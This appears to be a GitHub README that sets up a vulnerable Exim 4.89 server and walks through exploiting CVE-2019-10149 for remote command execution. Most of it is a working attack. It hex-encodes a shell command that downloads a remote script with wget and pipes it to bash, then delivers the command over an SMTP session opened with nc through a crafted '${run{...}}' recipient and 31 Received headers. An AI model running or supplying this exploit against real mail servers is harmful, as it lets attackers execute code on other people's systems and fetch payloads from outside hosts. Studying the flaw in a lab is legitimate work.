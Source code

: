 # CVE-2019-10149
Instructions for installing a vulnerable version of Exim and its expluatation

# CVE-2019-10149 - Exim 4.87 < 4.91
Tested on Linux Ubuntu 16.04, Exim 4.89

## Exim installation
Download and extract exim version 4.89
>wget https://github.com/Exim/exim/releases/download/exim-4_89/exim-4.89.tar.xz && tar -xvf exim-4.89.tar.xz

Move into the extracted folder
>cd exim-4.89/

Copy and modify required config files
>sed -e 's,^EXIM_USER.*$,EXIM_USER=exim,' Local/Makefile src/EDITME > Local/Makefile
>cp exim_monitor/EDITME Local/eximon.conf

Create exim user and group
>sudo groupadd -g 31 exim 
>sudo useradd -d /dev/null -c "Exim Daemon" -g exim -s /bin/false -u 31 exim

Install dependencies
>sudo apt-get update
>sudo apt-get install -y make build-essential libpcre3-dev libdb-dev libxt-dev libxaw7-dev

Install exim 4.89
>sudo make install

Edit /usr/exim/configure to allow relaying so we can exploit without waiting 7 days
>sudo sed -iz 's/domainlist relay_to_domains =/domainlist relay_to_domains = */' /usr/exim/configure
>sudo sed -i '/hostlist   relay_from_hosts = localhost/c\hostlist   relay_from_hosts = 0.0.0.0' /usr/exim/configure
>sudo sed -i '/require verify = recipient/c\#require verify = recipient' /usr/exim/configure

Run exim as user exim
>sudo -H -u exim /usr/exim/bin/exim -bd -d-receive    
	
## Crafting the exploit
Convert your shell command to hex
>/bin/sh -c “wget https://raw.githubusercontent.com/darsigovrustam/CVE-2019-10149/master/RemoteConnection.sh" -O - | bash
>\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fraw\x2Egithubusercontent\x2Ecom\x2Fdarsigovrustam\x2FCVE\x2D2019\x2D10149\x2Fmaster\x2FRemoteConnection\x2Esh\t-O\t-\t\x7C\tbash\x22\
	
	
Table for example
>\t-c\ = -c
>\t\= space
>x20 = space
>x7C = |
>x2F = /
>x3A = :
>x2D = -
>x3E = >
>x26 = &
>x22 = "
>x2E = .
	
## Exploit usage
First we use nc to start a connection to the server.
>nc 192.168.0.168 25
 
Once we are connected we say HELO.
>helo localhost
>(Answer: 250 exim Hello localhost [192.168.0.168])

Next, we set the sender address to blank.
>mail from:<>
>(Answer: 250 OK)

Then we set out recipient address with the payload we made earlier by inserting our desired command where the ellipses is rcpt to:<${run{...}}@localhost>.
>rcpt to:<${run{\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Fpayload\t-O\t-\t\x7C\tbash\x22\}}@localhost>	
	(Answer: 250 Accepted)

And finally We first type DATA, followed by 31 lines, a blank line, and a period.
>DATA
>Received: 1
>Received: 2
>Received: 3
>Received: 4
>Received: 5
>Received: 6
>Received: 7
>Received: 8
>Received: 9
>Received: 10
>Received: 11
>Received: 12
>Received: 13
>Received: 14
>Received: 15
>Received: 16
>Received: 17
>Received: 18
>Received: 19
>Received: 20
>Received: 21
>Received: 22
>Received: 23
>Received: 24
>Received: 25
>Received: 26
>Received: 27
>Received: 28
>Received: 29
>Received: 30
>Received: 31
>
>.

